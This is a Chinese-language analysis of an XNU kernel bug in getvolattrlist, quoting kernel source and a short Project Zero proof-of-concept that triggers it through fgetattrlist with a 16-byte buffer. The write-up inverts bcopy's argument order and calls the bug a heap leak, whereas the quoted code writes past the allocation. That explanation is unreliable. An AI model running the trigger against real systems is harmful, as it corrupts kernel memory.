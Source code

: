 # 漏洞分析

漏洞位置在getvolattrlist函数中，函数声明如下

	static int
	getvolattrlist(
		vfs_context_t ctx, 
		vnode_t vp, 
		struct attrlist *alp,
		user_addr_t attributeBuffer, 
		size_t bufferSize,
		uint64_t options,
		enum uio_seg segflg, 
		int is_64bit
	);

具体位置

		/*
	   * Allocate a target buffer for attribute results.
	   * Note that since we won't ever copy out more than the caller requested,
	   * we never need to allocate more than they offer.
	   */
	  ab.allocated = ulmin(bufferSize, fixedsize + varsize);
	  if (ab.allocated > ATTR_MAX_BUFFER) {
	    error = ENOMEM;
	    VFS_DEBUG(ctx, vp, "ATTRLIST - ERROR: buffer size too large (%d limit %d)", ab.allocated, ATTR_MAX_BUFFER);
	    goto out;
	  }
	  MALLOC(ab.base, char *, ab.allocated, M_TEMP, M_ZERO | M_WAITOK);

ulmin函数返回两者中较小的size

	static inline u_int32_t
	ulmin(u_int32_t a, u_int32_t b)
	{
		return (a < b ? a : b);
	}

当用户提供的size小于ATTR_MAX_BUFFER时

	MALLOC(ab.base, char *, ab.allocated, M_TEMP, M_ZERO | M_WAITOK);

会在ab.base地址处申请一块大小为 ab.allocated堆

在后面我们会执行以下代码

		/* Return attribute set output if requested. */
		if (return_valid) {
			ab.actual.commonattr |= ATTR_CMN_RETURNED_ATTRS;
			if (pack_invalid) {
				/* Only report the attributes that are valid */
				ab.actual.commonattr &= ab.valid.commonattr;
				ab.actual.volattr &= ab.valid.volattr;
			}
			bcopy(&ab.actual, ab.base + sizeof(uint32_t), sizeof (ab.actual));
		}

bcopy函数内部调用了memcpy函数，往&ab.actual复制ab.base + sizeof(uint32_t)开始的sizeof (ab.actual)个字节数据

	void
	bcopy(const void *s1, void *s2, size_t n)
	{
		memcpy(s2, s1, n);
	}

这里的问题是如果ab.base处分配的堆大小小于sizeof (ab.actual)，那么就会把ab.base处分配的堆内存之后的数据复制给ab.actual处，造成堆泄露

# struct _attrlist_buf

这里有一个结构体

	struct _attrlist_buf ab;

具体结构如下

	/*
	 * Structure describing the state of an in-progress attrlist operation.
	 */
	struct _attrlist_buf {
		char	*base;
		char	*fixedcursor;
		char	*varcursor;
		ssize_t	allocated;
		ssize_t needed;
		attribute_set_t	actual;
		attribute_set_t valid;
	};

我们重点关注base,actual

base是一个char *类型

actual是一个attribute_set_t结构体，该结构体具体结构如下

	typedef struct attribute_set {
		attrgroup_t commonattr;			/* common attribute group */
		attrgroup_t volattr;			/* Volume attribute group */
		attrgroup_t dirattr;			/* directory attribute group */
		attrgroup_t fileattr;			/* file attribute group */
		attrgroup_t forkattr;			/* fork attribute group */
	} attribute_set_t;

其中attrgroup_t是一个无符号int32类型

	typedef u_int32_t attrgroup_t;

# Poc

以下是google project-zero ianbeer提供的poc

	#include <stdio.h>
	#include <stdlib.h>
	#include <fcntl.h>
	#include <unistd.h>
	#include <sys/attr.h>
	
	int main() {
		  int fd = open("/", O_RDONLY);
		  if (fd == -1) {
		    perror("unable to open fs root\n");
		    return 0;
		  }
		
		  struct attrlist al = {0};
		
		  al.bitmapcount = ATTR_BIT_MAP_COUNT;
		  al.volattr = 0xfff;
		  al.commonattr = ATTR_CMN_RETURNED_ATTRS;
		
		  size_t attrBufSize = 16;
		  void* attrBuf = malloc(attrBufSize);
		  int options = 0;
		
		  int err = fgetattrlist(fd, &al, attrBuf, attrBufSize, options);
		  printf("err: %d\n", err);
		  return 0;
	}

调用顺序
	
	fgetattrlist() -> getattrlist_internal() -> getvolattrlist()

